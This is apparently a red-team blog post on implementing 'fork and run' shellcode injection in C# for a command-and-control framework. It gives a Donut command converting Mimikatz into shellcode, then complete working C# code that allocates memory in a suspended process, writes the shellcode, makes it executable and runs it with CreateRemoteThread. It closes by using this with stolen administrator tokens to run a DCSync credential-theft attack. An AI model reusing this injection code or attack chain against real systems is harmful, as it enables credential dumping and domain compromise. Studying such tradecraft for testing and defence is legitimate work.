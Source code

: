 ```yaml
---
title: Fork and Run Implementation in C# - Shellcode Injection
author: Fropops
date: 2023-06-21 08:00:00 +0800
categories: [Developpement]
tags: [C#, C2, Red Team, Fork and Run, Injection, WinAPI, Command Execution]
---
```


# Introduction

In the previous articles, we saw how to use the Windows API to create processes for the current user or with the rights of another user. Now, we will leverage this knowledge to inject malicious code that we want to execute.

# Shellcode Preparation

The first step is to generate our "shellcode". There are many resources available online about understanding and generating shellcode, but it is beyond the scope of this post series. Therefore, we will simply use [Donut](https://github.com/TheWover/donut), a program that automatically generates the required shellcode to execute a chosen Windows program (for this example, we will use the famous tool, Mimikatz):

```shell
/opt/donut/donut -i /mnt/Share/Utils/win/programs/mimikatz64.exe -f 1 -a 2 -o /mnt/Share/tmp/Payload.bin -p 'coffee exit'
```

![Donut Shellcode Generation](/assets/img/posts/ForkAndRun/injection-donut.png)

Now, we need to incorporate this file containing the binary code into our application to be able to inject it. For this post, we will simply add it as a resource in our .NET project:


To do this, go to the properties of our project

![Ressource - Properties](/assets/img/posts/ForkAndRun/injection-ressource-properties.png)


Choose the "Resource" tab and click on the link "This project does not contain a default resource file. Click here to create one."

![Ressource - Creation](/assets/img/posts/ForkAndRun/injection-ressource-create.png)


Change the resource type to "File".

![Ressource - File](/assets/img/posts/ForkAndRun/injection-ressource-files.png)


Click on "Add resource" and select the file we just generated.

![Ressource - Payload](/assets/img/posts/ForkAndRun/injection-ressource-addpayload.png)


To access the content of this resource from our program, we can use the following line of code:
```c#
var shellcode = Properties.Resources.Payload;
```

# Shellcode Injection

Before injecting this code into the process we will create, there is one more change to make. In this case, we are creating a process that will serve as a shell to run our malicious program. So when we start the process, we don't want it to execute its own code. To achieve this, we will start the process in a suspended state. Therefore, we will insert the following line into the process creation properties:

```c#
creationFlags |= PROCESS_CREATION_FLAGS.CREATE_SUSPENDED;
```

There are different ways to inject shellcode, and there are numerous resources available on this topic. We will use one of the simplest and most well-known techniques. By using the functions VirtualAllocEx, WriteProcessMemory, and VirtualProtectEx, we will create a memory space in the created process that is large enough to hold our shellcode, copy the binary code into that space, and make the memory space executable.

We need to import these three functions:

```c#
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAllocEx(
	IntPtr hProcess,
	IntPtr lpAddress,
	int dwSize,
	AllocationType flAllocationType,
	MemoryProtection flProtect);

[DllImport("kernel32.dll")]
public static extern bool VirtualProtectEx(
	IntPtr hProcess,
	IntPtr lpAddress,
	int dwSize,
	MemoryProtection flNewProtect,
	out MemoryProtection lpflOldProtect);

[DllImport("kernel32.dll")]
public static extern bool WriteProcessMemory(
	IntPtr hProcess,
	IntPtr lpBaseAddress,
	byte[] lpBuffer,
	int nSize,
	out IntPtr lpNumberOfBytesWritten);
```

We also need to import the associated structures:

```c#
[Flags]
public enum AllocationType
{
	Commit = 0x1000,
	Reserve = 0x2000,
	Decommit = 0x4000,
	Release = 0x8000,
	Reset = 0x80000,
	Physical = 0x400000,
	TopDown = 0x100000,
	WriteWatch = 0x200000,
	LargePages = 0x20000000
}

[Flags]
public enum MemoryProtection
{
	Execute = 0x10,
	ExecuteRead = 0x20,
	ExecuteReadWrite = 0x40,
	ExecuteWriteCopy = 0x80,
	NoAccess = 0x01,
	ReadOnly = 0x02,
	ReadWrite = 0x04,
	WriteCopy = 0x08,
	GuardModifierflag = 0x100,
	NoCacheModifierflag = 0x200,
	WriteCombineModifierflag = 0x400
}
```

In our program, we use these functions to inject the code into the process:

```c#
var baseAddress = VirtualAllocEx(
   pInfo.hProcess,
   IntPtr.Zero,
   shellcode.Length,
   AllocationType.Commit |  AllocationType.Reserve,
   MemoryProtection.ReadWrite);

if (baseAddress == IntPtr.Zero)
	throw new InvalidOperationException($"Failed to allocate memory, error code: {Marshal.GetLastWin32Error()}");


IntPtr bytesWritten = IntPtr.Zero;
if (!WriteProcessMemory(pInfo.hProcess, baseAddress, shellcode, shellcode.Length, out bytesWritten))
	throw new InvalidOperationException($"Failed to write shellcode into the process, error code: {Marshal.GetLastWin32Error()}");

if (bytesWritten.ToInt32() != shellcode.Length)
	throw new InvalidOperationException($"Failed to write All the shellcode into the process");

if (!VirtualProtectEx(
	pInfo.hProcess,
	baseAddress,
	shellcode.Length,
	MemoryProtection.ExecuteRead,
	out _))
{
	throw new InvalidOperationException($"Failed to cahnge memory to execute, error code: {Marshal.GetLastWin32Error()}");
}
```

To execute the injected code, we can rely on the CreateRemoteThread function, which we need to import:

```c#
[DllImport("kernel32.dll", SetLastError = true)]
public static extern IntPtr CreateRemoteThread(
	IntPtr hProcess,
	IntPtr lpThreadAttributes,
	uint dwStackSize,
	IntPtr lpStartAddress,
	IntPtr lpParameter,
	uint dwCreationFlags,
	out IntPtr lpThreadId);
```

Then, we can use it as follows:
```c#
IntPtr threadres = IntPtr.Zero;
IntPtr thread = CreateRemoteThread(pInfo.hProcess, IntPtr.Zero, 0, baseAddress, IntPtr.Zero, 0, out threadres);

if (thread == IntPtr.Zero)
	throw new InvalidOperationException($"Failed to create remote thread to start execution of the shellcode, error code: {Marshal.GetLastWin32Error()}");
```

And here's the result :

![Injection - Mimikatz](/assets/img/posts/ForkAndRun/injection-mimikatz.png)

# What does it look like in our C2?

Assembling all the pieces we have prepared so far in our C2, we are able to execute malicious tools (such as Mimikatz) using the privileges of other users.


Let's use our "Fork And Run" implementation to try a DCSync attack with the current user:
![Injection - C2 - DCSync As Current User](/assets/img/posts/ForkAndRun/injection-c2-norights.png)

As expected, we do not have sufficient privileges for this attack.

Now, let's use Token manipulation to borrow the rights of the administrator logged in to our machine:

![Injection - C2 - Steal Token](/assets/img/posts/ForkAndRun/injection-c2-steal.png)

Let's repeat the attack from this new context:

![Injection - C2 - DCSync](/assets/img/posts/ForkAndRun/injection-c2-dcsync.png)

# Final Thoughts

This article demonstrates how to use the Windows API to inject shellcode in a newly created process, and how it's leveraged to execute hacking tools.

You can find the complete source code of this article on [Github](https://github.com/Fropops/OffensiveWinAPI/blob/main/TestForBlog/Injection.cs)